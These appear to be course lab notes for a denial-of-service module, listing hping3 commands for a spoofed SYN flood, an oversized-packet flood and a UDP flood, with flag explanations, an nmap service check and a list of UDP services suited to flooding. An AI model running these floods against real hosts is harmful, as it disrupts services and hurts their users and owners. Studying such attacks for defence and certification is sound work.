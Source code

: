 # 10 - DoS

## Module 10 - Denial-of-Service

### **Perform a DoS Attack on a Target Host using hping3**

**Target:**

* Wireshark-\&gt;Ethernet

#### **Attacker**

* **hping3 -S \<Target IP> -a \<Spoofable IP> -p 22 -flood**
  * **-S: Set the SYN flag**
  * **-a: Spoof the IP address**
  * **-p: Specify the destination port**
  * **--flood: Send a huge number of packets**

#### **Target**

* Check wireshark

#### **Attacker (Perform PoD)**

* **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
  * **-d: Specify data size**
  * **-S: Set the SYN flag**

#### **Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* **hping3 -2 -p 139 –flood \<Target IP>**
  * **-2: Specify UDP mode**

#### **Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060
